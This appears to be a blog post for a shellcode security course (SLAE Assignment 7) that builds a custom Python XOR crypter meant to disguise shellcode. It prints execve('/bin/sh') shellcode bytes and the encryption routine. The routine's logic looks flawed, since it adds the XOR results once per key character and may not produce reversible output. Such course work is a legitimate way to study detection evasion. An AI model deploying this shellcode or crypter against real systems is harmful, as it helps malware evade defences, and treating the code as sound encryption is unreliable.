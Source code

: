 ```yaml
---
redirect_to: 'https://thesinkinthewardrobe.com/slae-assignment-07/'
---
```


# Assignment #7 - Creating a Custom Crypter

**Exercise description:** Generating a custom crypter, being possible to use any existing schema or create a new one for this exercise. Any programming language is allowed to perform this exercise.

**Code:** The code used within this article can be found [here](https://github.com/SDugo/sdugo.github.io/tree/master/SLAE/Assignment_7/Code)

To complete this task the following system was used:
###### `Linux 3.11.0-15-generic #25~precise1-Ubuntu SMP i686 i386 GNU/Linux`

As there are many implementations and libraries of different encryption schemas on the Internet, this article will show an implementation of a simple schema from scratch. The selected language for this exercise is Python, due to its simpliclity and portability to different operating systems.

## XOR multiple rounds

### Shellcode

The shellcode used for testing the encryption schema will generate a shell using *execve* syscall.

````
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
````
``shellcode for execve(/bin/sh)``

### Encryption

The schema proposed will encrypt an input string by *XORing* the string with a symmetric key. The input data will be *XORed* as many times as the length of the key provided. The output for this functionality will be a list of hexadecimal numbers separated by commas. 

````
def encryption():
    try:
        print('Starting encryption')
        plain_text = input('Enter text to encrypt: ') #Using input() instead of raw_input() to interpret the shellcode as data and not as a simple string
        print('Text to encrypt: ' +str(plain_text))
        encryption_key = raw_input('Enter encryption key: ') #For the encryption key, is different because you can choose a string as password with whatever characters on it
        encryption_key_decimal = int(str(encryption_key).encode("hex"),16) #Getting decimal representation of encryption key for XOR process
        encrypted_text = []
        for x in plain_text:
            decimal_value = int(str(x).encode("hex"),16) #Getting decimal representation of each shellcode char for XOR process
            encrypted_char = 0
            for k in xrange(0,len(encryption_key)):
                encrypted_char = int(encrypted_char) + (decimal_value ^ encryption_key_decimal) #XORing each char with the decimal key, as many times as the length of the key
            encrypted_char = hex(encrypted_char)
            encrypted_text.append(encrypted_char)
        print('Encrypted text is: ' +','.join(encrypted_text))
    except:
        print('An error occured during encryption process.')
````